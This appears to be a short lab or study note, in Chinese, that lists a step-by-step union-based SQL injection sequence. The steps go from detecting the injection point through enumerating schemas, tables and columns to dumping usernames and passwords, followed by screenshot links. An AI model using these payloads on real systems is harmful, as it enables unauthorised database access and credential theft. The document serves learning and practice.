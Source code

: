 ```
1') or 1=1 #	//判断注入
1') order by 2 #		//判断字段数
1') union select 1,2 #		//判断回显点
1') union select version(),database() #		//版本和当前库名
//所有库
1') union select 1,group_concat(schema_name) from information_schema.schemata #
//爆表
1') union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
//爆字段
1') union select 1,group_concat(column_name) from information_schema.columns where table_name= 'users' #
//爆内容
1') union select 1,group_concat(username,": ",password) from users #
```

![image-20220206203126592](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120465.png)

![image-20220206203255820](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120123.png)

![image-20220206203430444](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120603.png)

![image-20220206204158481](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120748.png)
